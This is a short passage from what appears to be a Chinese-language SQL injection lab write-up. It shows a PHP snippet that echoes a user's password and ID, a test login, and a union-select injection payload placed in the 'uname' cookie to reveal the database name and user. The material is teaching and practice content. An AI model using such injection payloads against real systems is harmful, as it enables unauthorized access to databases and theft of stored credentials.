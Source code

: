 ```
				echo 'Your Password:' .$row['password']		
				echo 'Your ID:' .$row['id'];
			  	} 
    ..................            
```

先用账号密码 test:zf1yolo 登录时，返回如下

<img src="图片\Snipaste_2023-01-23_11-02-38.png" alt="Snipaste_2023-01-23_11-02-38" style="zoom:80%;" />

在 cookie 处插入注入语句

```
uname=-test' union select 1,database(),user(),4,5,6 #
```

<img src="图片\Snipaste_2023-01-23_11-21-35.png" alt="Snipaste_2023-01-23_11-21-35" style="zoom: 67%;" />
